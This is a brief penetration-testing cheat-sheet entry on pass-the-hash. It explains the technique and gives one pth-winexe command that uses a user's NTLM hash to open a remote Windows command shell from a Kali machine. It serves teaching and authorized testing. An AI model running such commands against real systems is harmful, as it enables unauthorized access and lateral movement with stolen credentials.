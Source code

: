 # Pass the Hash

> Allows us to authenticate to a remote system or service using the NTLM hash of a user (will not work for Kerberos authentication).

 ```bash
#From our kali machine:
pth-winexe -U $USER%$NTLMHASH //$IPADDRESS cmd
#Change $IPADDRESS to the remote machine.
 ```

**Note:** This method only works for AD domain accounts and the built-in local administrator account.
